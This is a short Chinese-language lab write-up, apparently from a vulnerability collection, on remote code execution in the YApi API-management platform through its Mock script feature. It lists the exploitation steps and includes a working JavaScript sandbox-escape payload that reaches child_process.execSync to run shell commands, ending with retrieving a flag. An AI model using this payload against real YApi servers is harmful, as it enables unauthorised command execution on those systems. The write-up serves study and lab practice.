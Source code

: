 # yapi代码执行
## 漏洞描述
YAPI接口管理平台是国内某旅行网站的大前端技术中心开源项目，使用mock数据/脚本作为中间交互层，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。YApi 是高效、易用、功能强大的 api 管理平台。但因为大量用户使用 YAPI的默认配置并允许从外部网络访问 YApi服务，导致攻击者注册用户后，即可通过 Mock功能远程执行任意代

## 影响版本
未知

## 利用流程
1.访问地址：118.193.36.37:39888     注册一个新用户

![image]()
![image]()
2.添加项目 -> 项目名字(随意) ->  创建项目 -> 高级Mock -> 开启 -> Mock脚本
```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("ls /tmp").toString()
```

![image]()
4.预览 查看Mock地址 并访问

![image]()
5.得到flag

![image]()
